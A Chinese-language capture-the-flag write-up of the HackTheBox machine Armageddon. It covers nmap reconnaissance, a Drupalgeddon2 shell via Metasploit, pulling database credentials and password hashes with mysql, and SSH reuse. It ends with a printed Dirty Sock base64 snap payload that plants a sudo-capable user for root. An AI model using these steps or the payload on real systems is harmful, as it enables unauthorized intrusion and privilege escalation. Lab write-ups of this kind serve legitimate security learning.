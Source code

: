 # HackTheBox-Armageddon

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 100000 -A -sS   
  
Host is up (0.18s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)  
| ssh-hostkey:   
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)  
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)  
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)  
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)  
|_http-title: Welcome to  Armageddon |  Armageddon  
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16  
| http-robots.txt: 36 disallowed entries (15 shown)  
| /includes/ /misc/ /modules/ /profiles/ /scripts/   
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt   
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt   
|_/LICENSE.txt /MAINTAINERS.txt  
|_http-generator: Drupal 7 (http://drupal.org)  
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).  
TCP/IP fingerprint:  
OS:SCAN(V=7.94%E=4%D=4/15%OT=22%CT=1%CU=37686%PV=Y%DS=2%DC=T%G=Y%TM=661CA4C  
OS:3%P=x86_64-apple-darwin21.6.0)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)SE  
OS:Q(SP=108%GCD=1%ISR=10B%TI=Z%II=I%TS=A)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=I  
OS:%II=I%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11  
OS:NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=71  
OS:20%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4  
OS:0%S=O%A=S&#43;%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O  
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40  
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q  
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y  
OS:%DFI=N%T=40%CD=S)  
  
Network Distance: 2 hops  
  
TRACEROUTE (using port 1723/tcp)  
HOP RTT       ADDRESS  
1   132.89 ms 10.10.16.1  
2   214.85 ms 10.129.48.89  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 29.92 seconds  
```  
存在`22`端口和`80`端口  
`80`端口存在`Web`服务，并且存在很多文件  
其中`/CHANGELOG.txt`存在版本信息  
`Drupal 7.56, 2017-06-21`  
利用`msf`搜索一下  
利用`exploit/unix/webapp/drupal_drupalgeddon2`这个漏洞  
成功获得一个`shell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151210549.png)
但是权限很低  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151213101.png)
无法打开任何`flag`  
目标还开放了一个`22`端口，这里考虑密码复用，连接22端口  
通过`/etc/passwd`得知存在`brucetherealadmin`用户，在配置文件和数据库中找一下  
在`sites/default/settings.php`中存在数据库账号和密码  
```php  
$databases = array (  
  &#39;default&#39; =&gt;   
  array (  
    &#39;default&#39; =&gt;   
    array (  
      &#39;database&#39; =&gt; &#39;drupal&#39;,  
      &#39;username&#39; =&gt; &#39;drupaluser&#39;,  
      &#39;password&#39; =&gt; &#39;CQHEy@9M*m23gBVj&#39;,  
      &#39;host&#39; =&gt; &#39;localhost&#39;,  
      &#39;port&#39; =&gt; &#39;&#39;,  
      &#39;driver&#39; =&gt; &#39;mysql&#39;,  
      &#39;prefix&#39; =&gt; &#39;&#39;,  
    ),  
  ),  
);  
```  
在数据库中找到疑似`SSH`的密码  
```  
mysql -h localhost -u &#34;drupaluser&#34; -pCQHEy@9M*m23gBVj &#34;drupal&#34; -e &#34;select uid,name,pass from users;&#34;  
  
brucetherealadmin $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151440330.png)
利用`cmd5`查出`hash`值，成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151441248.png)
`sudo -l`查看详细权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151442888.png)
可以用root权限运行`snap`命令  
参考文章  
https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html  
生成命令  
```bash  
python2 -c &#39;print&#34;aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA&#43;AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA&#43;PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5&#43;qumvhFkbY5Pr4ba1mk4&#43;lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc&#43;MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw&#34;&#43; &#34;A&#34;*4256 &#43; &#34;==&#34;&#39; | base64 -d &gt; exploit.snap  
```  
运行`sudo /usr/bin/snap install --devmode exploit.snap`  
切换到`dirty_sock`用户，密码同样是`dirty_sock`  
`sudo cat /root/root.txt`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/hackthebox-armageddon/  

